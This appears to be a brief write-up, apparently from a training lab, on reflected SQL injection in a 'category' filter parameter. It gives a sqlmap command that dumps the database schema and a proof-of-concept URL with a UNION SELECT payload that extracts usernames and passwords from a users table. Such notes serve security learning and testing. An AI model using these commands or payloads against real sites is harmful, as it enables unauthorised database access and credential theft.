 <h1>SQL Injection</h1>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>
